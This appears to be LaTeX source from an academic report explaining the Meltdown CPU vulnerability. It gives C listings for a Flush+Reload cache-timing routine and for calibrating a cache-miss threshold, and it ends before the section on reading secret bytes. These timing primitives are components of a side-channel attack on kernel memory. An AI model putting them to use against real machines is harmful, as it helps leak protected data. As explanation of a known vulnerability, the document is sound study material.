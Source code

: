 \documentclass[a4paper,oneside,openright] {scrreprt}
\begin{document}
\begin{lstlisting}[language=C, caption=Meltdown: Flush+Reload, label={lst:flushAndReload}]
static int __attribute__((always_inline)) flush_reload(void *ptr) {
    uint64_t start = 0, end = 0;
  
    start = rdtsc();
    maccess(ptr);
    end = rdtsc();
  
    flush(ptr);
  
    if (end - start < config.cache_miss_threshold) {
      return 1;
    }
    return 0;
}
\end{lstlisting}

Listing ~\ref{lst:computeThreshold} illustrates how the cache-threshold can be determined.
The implementation applies one million iterations to compute a precise threshold value.
Therefore a pointer \texttt{ptr} is accessed in line 6 so that its referenced data gets cached.
\newpage

\begin{lstlisting}[language=C, caption=Meltdown: Cache Miss Threshold 1, label={lst:computeThreshold}]
size_t reload_time = 0, flush_reload_time = 0, i, count = 1000000;
size_t dummy[16];
size_t *ptr = dummy + 8;
uint64_t start = 0, end = 0;
  
maccess(ptr);
for (i = 0; i < count; i++) {
  start = rdtsc();
  maccess(ptr);
  end = rdtsc();
  reload_time += (end - start);
}
for (i = 0; i < count; i++) {
  start = rdtsc();
  maccess(ptr);
  end = rdtsc();
  flush(ptr);
  flush_reload_time += (end - start);
}
reload_time /= count;
flush_reload_time /= count;
\end{lstlisting}

Afterwards the access time is measured to detect how long it takes to retrieve the cached value. 
Then the pointer's referenced data is removed from the cache in line 17 and thus reloaded from memory in every iteration.
At the end the average access time for cache hits and cache misses are computed.
Listing ~\ref{lst:computeThreshold} shows the final computation of \texttt{cache\_miss\_threshold}.

\begin{lstlisting}[language=C, caption=Meltdown: Cache Miss Threshold 2, label={lst:finalthreshold}]
config.cache_miss_threshold = (flush_reload_time + reload_time * 2) / 3;
\end{lstlisting}

\subsection{Reading Secret Bytes}
\label{ch:intro:motivation:A}
\end{document}
